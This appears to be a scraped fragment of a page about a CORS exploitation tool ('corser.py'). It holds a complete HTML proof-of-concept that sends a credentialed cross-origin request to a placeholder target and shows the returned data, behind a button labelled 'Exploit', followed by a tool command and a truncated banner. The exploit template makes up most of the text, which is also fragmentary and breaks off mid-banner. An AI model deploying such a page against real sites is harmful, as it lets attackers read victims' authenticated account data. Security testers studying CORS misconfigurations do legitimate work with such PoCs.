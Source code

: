
<!DOCTYPE html>

<html>

<head>

<script>

        function cors() {

                var xhttp = new XMLHttpRequest();

                xhttp.onreadystatechange = function() {

                        if (this.readyState == 4 && this.status == 200){

                                document.getElementById("demo").innerHTML = alert(this.responseText);

                        }

                };

                xhttp.open('GET', 'https://target.com/anything/?param1=value1&pram2=value2', true);

                <!-- xhttp.setRequestHeader('setsomething');-->

                xhttp.withCredentials = true;

                xhttp.send();

        }

</script>

</head>

<body>

<center>

<h2>CORS POC</h2>

<h3>Extract Information</h3>

<div id="demo">

<button type="button" onclick="cors()">Exploit</button>

</div>

</body>

</html>

  

  * python corser.py -poc POST

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182659.png)

PS D:\crossdomain-master> python corser.py -poc POST

  

  ____ ___  ____  ____  _____ ____
